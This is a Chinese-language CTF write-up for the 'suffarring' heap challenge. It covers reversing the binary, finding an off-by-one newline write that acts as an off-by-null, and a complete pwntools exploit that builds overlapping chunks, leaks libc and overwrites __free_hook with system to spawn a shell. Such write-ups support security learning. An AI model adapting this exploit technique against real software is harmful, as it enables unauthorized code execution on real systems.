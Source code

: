 题目是个菜单题，有些代码的不是很重要，比如 "J" 分支和 "N" 分支  
![](code_logic.jpg)  
那么经过一些逆向之后会发现，其实这个程序写了个在字符串中查找子串的功能  
比如：原始字符串：bababa 查找字符串: ba  
在 "D" 分支也就是 count() 函数中,那么会查找出出现了3次  
在 "S" 分支也就是 recant_needles() 函数中，会将所有出现 ba 的子串打印下来，用 "\n" 拼接  
比如上面那个例子，会有结果:  
bababa\nbaba\nba\n  
因为是通过 malloc 去存储这个字符串，相应的需要计算字符串的个数  
关于计算个数的算法其实逆的不是很清楚，不过也不重要，因为我测试了很多组数据发现确实是对的  
算法的基本思路是写了个类似于快速排序的东西，然后通过两个数组计算出对应子串的个数，这个算法看逆向并不是能看的很懂  
知道是对的后就很绝望了  
![](break_point.jpg)  
因为上面这个函数就是刚才说的存储函数，如果字符数算的是对的，那么就没有溢出，就没有洞  
然后又回溯去看了很多边界点，发现都没有问题，比如 index，uaf 等一些常见的问题  
最后确定就是这个函数出了问题，所以需要自己假设很多数据，比如：  
- 子串长度大于原字符串长度的时候  
- 子串和原字符串能为空吗  
第一个思路本来以为是可行的，因为 i 是一个 unsighed int，所以一个负数，会循环很久，但是测试发现根本用不了  
在第二思路中，我发现子串确实能为空，那么能为空能利用吗  
通过分析发现，在上一个循环中如果子串是空串，那么会一直走到 `j == add_needle->size` 里面的分支，所以会执行两次 memcpy，但是因为是空串，所以相当于是每个串的子串  
比如:bbb，那么其结果为  
`bbb\nbb\nb\n`  
一开始我也以为是这个结果，但是经过调试，我发现了一些 bug  
正确地结果为 `bbb\nbb\nb\n\n`  
也就是会多一个 `\n`  
我发现是因为 i 多走了一次，所以多进入了一次 `j == add_needle->size` 里面的分支，虽然第一个 memcpy 的长度为 0 (rdx)，但是第二个 memcpy 会拷贝一个字节，也就是一个 off by one ，但是这个 one 是固定的 0xa (`\n`)  
那么这个能不能利用，一开始我以为是不能利用的，后来晚上仔细一想， 0xa = 0b1010，实际上可以当做一个低配版的 off by null ，`is_mmaped` 不影响正常操作  
那么就有了一个 off by null 的洞了  
基本思路:  
- 通过 off by null 基本策略构造 chunk overlapping  
首先需要一个脚本跑出什么长度的原字符串能够获得类似 0x68 这种大小的 chunk:  

```python
res = 0
for i in range(1,200):
    res += i+1
    if res % 8 == 0 and res & 8 != 0:
        print hex(i),":",hex(res)
```  
结果为：

```python
0xd : 0x68
0x10 : 0x98
0x2d : 0x438
0x30 : 0x4c8
0x4d : 0xc08
0x50 : 0xcf8
0x6d : 0x17d8
0x70 : 0x1928
0x8d : 0x27a8
0x90 : 0x2958
0xad : 0x3b78
0xb0 : 0x3d88
```  
然后就是基本的 off by null 了，注意这里还需要解决一些 bypass tache bin 的问题，所以调试会很麻烦，payload:  

```python
from pwn import *
import sys

if len(sys.argv) < 2:
    debug = True
else:
    debug = False

if debug:
    p = process("./suffarring")
    libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
    elf = ELF("./suffarring")
else:
    p = remote("suffarring.pwni.ng","7361")
    libc = ELF("./libc.so.6")
    elf = ELF("./suffarring")

def menu(choice):
    p.sendlineafter("\n> ",choice)

def add(data):
    menu("A")
    p.sendlineafter("Length?\n",str(len(data)))
    p.sendafter("Data?\n> ",data)

def count(index,data):
    menu("C")
    p.sendlineafter("Which text?\n",str(index))
    p.sendlineafter("Length?\n",str(len(data)))
    p.sendafter("Data?\n> ",data)

def free(index):
    menu("D")
    p.sendlineafter("Which text?\n",str(index))

def read_int(info):
    menu("I")
    p.recvuntil("> ")
    p.sendlineafter("> ",str(info))

def show_all():
    menu("M")

def show_index(index):
    menu("P")
    p.sendlineafter("Which text?\n",str(index))

def recant(index,data):
    menu("R")
    p.sendlineafter("Which text?\n",str(index))
    p.sendlineafter("Length?\n",str(len(data)))
    p.sendafter("Data?\n> ",data)

code_base = 0x555555554000
def debugf():
    #gdb.attach(p,"b *{b1}".format(b1 = hex(code_base + 0xB1D)))
    #gdb.attach(p,"b *{b1}\nb *{b2}".format(b1 = hex(code_base + 0xB1D),b2 = hex(code_base + 0x1708)))
    gdb.attach(p,"b *{b1}\nb *{b2}".format(b1 = hex(code_base + 0xB1D),b2 = hex(code_base + 0x12c9)))

context.log_level = "debug"
context.terminal = ["tmux","splitw","-h"]
"""
0xd : 0x68
0x10 : 0x98
0x2d : 0x438
0x30 : 0x4c8
0x4d : 0xc08
0x50 : 0xcf8
0x6d : 0x17d8
0x70 : 0x1928
0x8d : 0x27a8
0x90 : 0x2958
0xad : 0x3b78
0xb0 : 0x3d88
"""
size = 0xa0
size = 0xa0 - 0x10
add("b"*(size/8))
add("b"*(size/8))
add("b"*(size/8))
add("b"*(size/8))
free(0)
free(1)
free(2)
free(3)
#debugf()
add("a"*(size)) #0 
add("b"*(size)) #1
add("c"*0xd) #2
free(0)
#debugf()
size1 = 0xdb0
payload = "\x00" * (size1 - 0x50) + p64(0xd08) + p64(0xd08) + p64(0) + p64(0x41)
add(payload) #0
free(0)
recant(2,"")
size2 = 0xd00
size3 = 0x500
size4 = 0x100
add("a"*(size2 - size3 - size4 - 0x10)) #0
add("a"*(size3 - 0x10)) #3
add("a"*(size4 - 0x10)) #4
free(0)
free(1)
#debugf()
size_last = 0x1af0
payload = ""
payload = payload.ljust(size2 - size3 - size4 - 0x10,"\x00")
payload += p64(0) + p64(size3 + 1)
payload = payload.ljust(size2 - size4 - 0x10,"\x00")
payload += p64(0) + p64(size4 + 1)
payload = payload.ljust(size2 - 0x10,"\x00")
payload += p64(0) + p64(0x11) + p64(0) + p64(0x11)
add(payload) #0
free(3)
show_index(0)
p.recvuntil(p64(size3 + 1))
leak_addr = u64(p.recv(8))
libc.address = leak_addr - 96 - 0x10 - libc.symbols["__malloc_hook"]
log.success("libc_base:" + hex(libc.address))
free(4)
add("a"*(size3 - 0x10)) #1
free(0)
target = libc.symbols["__free_hook"] - 0x8
payload = ""
payload = payload.ljust(size2 - size3 - size4 - 0x10,"\x00")
payload += p64(0) + p64(size3 + 1)
payload = payload.ljust(size2 - size4 - 0x10,"\x00")
payload += p64(0) + p64(size4 + 1)
payload += p64(target)
payload = payload.ljust(size2 - 0x10,"\x00")
payload += p64(0) + p64(0x11) + p64(0) + p64(0x11)
add(payload) #0
#debugf()
payload = "/bin/sh\x00" + p64(libc.symbols["system"])
payload = payload.ljust(size4 - 0x10,"\x00")
add(payload) #3
add(payload) #4
free(4)
p.interactive()
```
